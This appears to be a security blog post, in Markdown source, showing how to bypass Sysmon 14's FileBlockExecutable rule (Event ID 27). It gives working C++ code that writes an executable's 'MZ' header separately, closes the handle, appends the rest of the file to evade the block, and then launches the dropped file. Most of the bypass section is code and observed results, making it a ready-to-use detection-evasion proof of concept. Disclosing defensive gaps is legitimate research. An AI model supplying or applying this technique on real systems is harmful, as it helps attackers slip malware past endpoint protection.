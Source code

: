 ```yaml
---
layout: article
title: "Sysmon EID 27 Bypass" 
categories: [Cybersecurity]
author: Ahmed Elmayyah
tags: [Cybersecurity, Programming, C, Exploitation, Bypass]
mode: normal 
header:
  theme: dark
article_header:
  type: cover 
  theme: dark
  background_image: false
# Stick to an image with a height of 700
  image:
    src: /assets/images/sysmon-eid-27-bypass/sysmon_header.jpg
cover: /assets/images/sysmon-eid-27-bypass/sysmon_cover.jpg
---
```


# Sysmon EID 27 

Sysmon version 14.0 was released on the 16th of August 2022. The new version introduces a new Event ID: 27 FileBlockExecutable. It is kind of new for sysmon to block something from happening completely. So, it was interesting to think of a way to bypass it!

I came across [this post by Olaf Hartong](https://medium.com/@olafhartong/sysmon-14-0-fileblockexecutable-13d7ba3dff3e). In this post, Olaf was previewing the new event and how it works on a surface level.
<!--more-->
> The same is true for an DLL/XLL/WLL file since that will share the same MZ header.

It seemed apparent that the new rule is using the MZ header(explained below) to detect if the file is a Windows executable or not.

# Preparation

Taking the simple config file from the post for demonstration purposes, I installed Sysmon 14.0 on my Windows 10 VM and set the config file below. The file basically sets the rule to fire on any executable file in the Downloads folder of any user.
```xml
<Sysmon schemaversion="4.82">
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <FileBlockExecutable onmatch="include">
            <TargetFilename condition="contains all">C:\Users;Downloads</TargetFilename>
         </FileBlockExecutable>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```

I also wrote a very simple executable which prints out "Catch me if you can, Sysmon!". This is the executable that I'm going to try to drop and run from the Downloads folder. This executable as a start is placed in Documents\App.exe.

In an actual attack scenario, the file would be recieved from a remote server or perhaps embedded in the file itself. However, this is for demonstration only so it shouldn't really matter as Sysmon doesn't care where the file originated. All it cares about is the writing of an executable to the folders specified in the rule.
{:.info}


{: style="text-align:center"} 
![Output of the program](/assets/images/sysmon-eid-27-bypass/App.exe.png)

I also opened the event viewer and set a filter for event 27 at `Application and Services Logs/Microsoft/Windows/Sysmon/Operational`.

{: style="text-align:center"}
![Sysmon Filter](/assets/images/sysmon-eid-27-bypass/SysmonFilter.png)


To verify that Sysmon is working and will detect attempts to write an executable in the Downloads folder, I used the following simple program to write the file.

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the executable file
	WriteFile(downloadsFile, fileBytes, fileSize, NULL, NULL);
	return 0;
}
```


{: style="text-align:center"}
![Sysmon Blocking](/assets/images/sysmon-eid-27-bypass/WithoutBypass.png)
{: style="text-align:center"}
As expected, Sysmon detects the creation of the file and blocks it.


# The Bypass

## A little bit of background
If you don't know, file formats typically have a [sequence of bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) known as file signatures, file headers, or more commonly, Magic Bytes. They're used by operating systems and programs to detect file formats even if their names don't contain the file extension.

The Windows Portable Executable format uses a file header/signature of `MZ` (the bytes `0x4D` and `0x5A`). That includes all executables, including .exe, .dll, .sys, etc...

Fun Fact: MZ is used as they are the initials of [Mark Zbikowski](https://en.wikipedia.org/wiki/Mark_Zbikowski), one of the lead developers of MS-DOS and the designer of the MS-DOS executable file format (which later became the Protable Executable format).
{:.info}


## Primal instinct
My very first thought was to zero out the MZ header and try to execute the file as is. That way Sysmon wouldn't detect it but I'd still be able to execute it just fine. However, that failed as `CreateProcess()` failed to execute a binary that doesn't have an MZ header. Running the executable from PowerShell or the command line prompt didn't work either. Interestingly enough, this proved some points:
 - Sysmon relies on the MZ header to detect an executable, as writing an entire binary without "MZ" worked just fine. 
 - Sysmon doesn't rely on the bytes `MZ` alone as when writing those to a file, it doesn't detect anything.


So, it seems like Sysmon relies on `MZ` alongside _something_ else to detect that it is an executable.

## The Actual bypass
Puting two and two together, what if we just wrote the file on two stages. We can write the string "MZ" first, and then write the rest of the file.

At first, I tried making two different calls to `WriteFile()` using the same file handle obtained from `CreateFileA()`. Sysmon was able to detect and block that just fine. However, the following steps worked:
 1. Create a file
 2. Write "MZ" to the file
 3. Close the handle to the file
 4. Open a handle to the same file in append mode
 5. Append the rest of the content to the file (make sure to skip the first two bytes)
 6. Close the handle
 7. Profit??

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions to write the MZ header
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the MZ header
	WriteFile(downloadsFile, "MZ", 2, NULL, NULL);

	//Close the file, this is extremely necessary to bypass sysmon
	CloseHandle(downloadsFile);

	//Get a handle to the file in append mode to write the rest of the file
	downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		FILE_APPEND_DATA, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the rest of the file, skipping the first two bytes of the file
	WriteFile(downloadsFile, fileBytes + 2, fileSize - 2, NULL, NULL);
	CloseHandle(downloadsFile);

	//Create a new process using the executable we just very _stealthily_ dropped!
	STARTUPINFOA si;
	PROCESS_INFORMATION pi;
	CreateProcessA("C:\\Users\\Satharus\\Downloads\\App.notexe", NULL,
		NULL, NULL, true, 0, NULL, NULL, &si, &pi);
	return 0;
}
```

{: style="text-align:center"}
![Sysmon Blocking](/assets/images/sysmon-eid-27-bypass/WithBypass.png)
{: style="text-align:center"}
Sysmon doesn't detect the creation of the file and the process is allowed to execute.

This worked flawlessly. 

Simple? Yes. 

Stupid? Probably. 

Effective? Definitely!


Thanks a lot for reading! As usual, I hope you learned something or at least found it interesting!

If you enjoyed it, please share it with your friends that are interested in simple detection bypasses.
